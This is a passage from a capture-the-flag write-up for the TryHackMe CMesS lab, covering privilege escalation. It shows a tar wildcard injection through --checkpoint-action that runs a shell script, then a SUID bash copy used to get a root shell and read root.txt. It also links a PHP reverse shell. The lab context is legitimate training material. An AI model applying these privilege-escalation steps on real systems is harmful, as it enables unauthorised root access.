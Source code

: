    - The `--checkpoint` displays the progress message every passed value record (here passed value is 1)
   - The `--checkpoint-action` performs the specified action on each checkpoint which in our case is to execute the command `sh shell.sh`.

4. Wait for some time and then try the command:

   ```bash
   andre@cmess:~/backup$ /tmp/myroot -p
   myroot-4.3# whoami
   root
   myroot-4.3# cd /root
   myroot-4.3# cat root.txt   
   ```

**With this we have rooted the machine!**

# Some Key Points to Take Away

1. Whenever possible try to enumerate subdomains along with directories.
2. Check for files to which you have read access.

# References

1. TryHackMe - CMesS: https://tryhackme.com/room/cmess
2. PentestMonkey - PHP Reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php